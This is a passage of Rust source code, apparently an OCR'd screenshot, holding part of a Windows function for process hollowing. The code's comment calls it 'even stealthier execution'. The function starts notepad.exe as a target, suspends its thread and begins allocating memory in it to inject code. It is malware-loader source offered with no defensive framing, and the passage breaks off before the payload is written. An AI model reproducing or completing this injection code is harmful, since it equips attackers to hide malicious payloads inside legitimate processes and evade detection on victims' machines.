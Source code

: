 ```rust
        Err(e) => Err(e.into())
    }
}

// Process hollowing with fibers for even stealthier execution
#[cfg(target_os = "windows")]
unsafe fn execute_via_fiber_hollowing(code: &[u8]) -> Result<(), Box<dyn Error>> {
    use std::ffi::CString;
    use windows_sys::Win32::System::Diagnostics::Debug::WriteProcessMemory;
    use windows_sys::Win32::System::Threading::{
        CreateProcessA, PROCESS_INFORMATION, STARTUPINFOA,
        DETACHED_PROCESS, ResumeThread, SuspendThread,
        THREAD_ALL_ACCESS
    };
    use windows_sys::Win32::System::Memory::{
        VirtualAllocEx, VirtualProtectEx,
        MEM_COMMIT, MEM_RESERVE, PAGE_READWRITE, PAGE_EXECUTE_READ
    };
    use windows_sys::Win32::Foundation::{CloseHandle, GetLastError, FALSE};
    
    if code.is_empty() {
        return Err("Empty code".into());
    }
    
    // Target legitimate process
    let target_process = CString::new("C:\\Windows\\System32\\notepad.exe").unwrap();
    let mut startup_info: STARTUPINFOA = mem::zeroed();
    let mut process_info: PROCESS_INFORMATION = mem::zeroed();
    let creation_flags = DETACHED_PROCESS;
    let mut old_protection = 0u32;
    let mut number_of_bytes_written = 0usize;
    
    startup_info.cb = mem::size_of::<STARTUPINFOA>() as u32;
    
    // Create process in suspended state
    let result = CreateProcessA(
        ptr::null(),
        target_process.as_ptr() as *mut u8,
        ptr::null_mut(),
        ptr::null_mut(),
        FALSE,
        creation_flags,
        ptr::null_mut(),
        ptr::null(),
        &mut startup_info,
        &mut process_info,
    );
    
    if result == 0 {
        let error = GetLastError();
        return Err(format!("Failed to create target process: {}", error).into());
    }
    
    // Suspend the main thread
    let result = SuspendThread(process_info.hThread);
    if result == 0xFFFFFFFF {
        let error = GetLastError();
        CloseHandle(process_info.hProcess);
        CloseHandle(process_info.hThread);
        return Err(format!("Failed to suspend thread: {}", error).into());
    }
    
    // Allocate memory in the target process
```